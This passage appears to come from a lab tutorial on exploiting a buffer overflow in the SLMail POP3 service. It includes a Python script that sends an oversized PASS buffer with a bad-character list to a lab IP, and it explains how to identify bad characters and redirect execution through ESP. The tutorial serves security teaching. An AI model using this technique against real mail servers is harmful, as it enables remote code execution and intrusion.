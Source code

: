   ```python
  #!/usr/bin/python
  import socket
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  buffer="A"*2606 + "B"*4 + badchars

  try:
    print "\nSending evil buffer..."
    s.connect(('10.0.0.22',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data  = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    s.close()
    print "\nDone!"
  except:
    print "Could not connect to POP3!"
  ```
  - The resulting memory dump for the ESP register shows that the character 0x0A seems to have truncated the rest of the buffer that comes after it.
  ![The Buffer is Truncated](/images/38.png)
  - We remove the \x0A character from our list, and resend the payload. Looking at the resulting buffer, in memory, we see the following output, in the debugger
  ![Our Buffer is Still Corrupted](/images/39.png)
  - The only other problem we see occurs between 0x0C and 0x0E, which means that the character 0x0D is the culprit, but we should have already anticipated this. All the other characters seem to have no issues with SLMail, and do not get truncated, or mangled.
  - To summarize, our buffer should not include in any way the following characters: 0x00, 0x0A, 0x0D.

### Redirecting the Execution Flow

  - Our next task is finding a way to redirect the execution flow to the shellcode located at the memory address that the ESP register is pointing to, at crash time.
  - The most intuitive thing to do would be to try replacing the B’s that overwrite EIP with the address that pops up in the ESP register, at the time of the crash.
  - However, as you should have noticed from the past few debugger restarts, the value of ESP changes, from crash to crash. Therefore, hardcoding a specific stack address would not provide a reliable way of getting to our buffer.
  - This is because stack addresses change often, especially in threaded applications such as SLMail, as each thread has its reserved stack memory region allocated by the operating system.
